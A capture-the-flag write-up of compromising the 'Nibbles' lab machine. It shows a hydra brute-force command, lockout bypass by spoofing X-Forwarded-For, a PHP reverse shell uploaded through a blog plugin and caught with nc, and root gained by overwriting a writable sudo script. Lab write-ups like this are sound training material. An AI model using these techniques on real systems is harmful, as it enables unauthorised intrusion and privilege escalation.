 # IP Address: 10.10.10.75

# Enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP
Browsing to the site, we see a basic "Hello World" heading. Inspecting the page source we find a hidden directory.

```
┌──(code㉿kali)-[~]
└─$ curl http://10.10.10.75
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->

```

Fuzzing, we find an admin login here: http://10.10.10.75/nibbleblog/admin.php

We bruteforce the login. 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username or password" -V
```

It looks like something is causing hydra to give false positives after a few tries. Could there be timeouts or something after some number of login failures?

Looking at the source code for this software here: https://github.com/dignajar/nibbleblog/tree/2a5f242d89b85c0aae2df95c4c95bc627ade54fd we can see there are security rules at /admin/boot/rules.

In 3-variables.bit, we can confirm that IP blacklisting is taking place. 
```
... 

define('BLACKLIST_SAVED_REQUESTS', 15);

define('BLACKLIST_LOCKING_AMOUNT', 5); // Number of failures before being locked

define('BLACKLIST_TIME', 5); // Time in minutes the ip will be blocked
...
```

Researching further, we find that a kind soul has already scripted a way around this by manipulating the X-FORWARDED-FOR header. The script lives here https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/

Running this, we get: 
```
...
Attempt 2562: 71.48.240.2               cloud9
Attempt 2563: 71.48.240.2               vicky
Attempt 2564: 160.144.44.253            rosie
Attempt 2565: 160.144.44.253            jakarta
Attempt 2566: 160.144.44.253            gillian
Attempt 2567: 160.144.44.253            flakita
Attempt 2568: 55.230.85.140             darlene
Attempt 2569: 55.230.85.140             tabitha
Attempt 2570: 55.230.85.140             russel
Attempt 2571: 55.230.85.140             nibbles
Password for admin is nibbles

```

# Exploitation 

After logging in with the bruteforced credentials, we upload a php reverse shell. 

1. Navigate to Plugins >> My Image >> click Configure
2. Upload php-reverse-shell.php
3. Navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/ 
4. Click image.php and catch shell as nibbler

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488                                                                                                                              
listening on [any] 4488 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.75] 55056
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:04:17 up  1:00,  0 users,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$
```

user.txt

![[Pasted image 20211115210048.png]]

# Privilege Escalation
We can run monitor.sh as root without any password.
```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

Find the personal.zip archive
```
$ cd /home/nibbler                                                                                                                             
$ ls
personal.zip
user.txt
$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
$ cd personal/stuff
$ ls
monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

# clear the screen
clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage
...
```

The script is self explanatory ("Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script") but it looks like we have write access to it. 

We backup the script and replace the original code with a command to spawn a new shell.

```
$ cp monitor.sh monitor.sh.bak
$ which bash
/bin/bash
$ echo '/bin/bash' > monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
id
uid=0(root) gid=0(root) groups=0(root)

```

# Proof
root.txt

![[Pasted image 20211116195608.png]]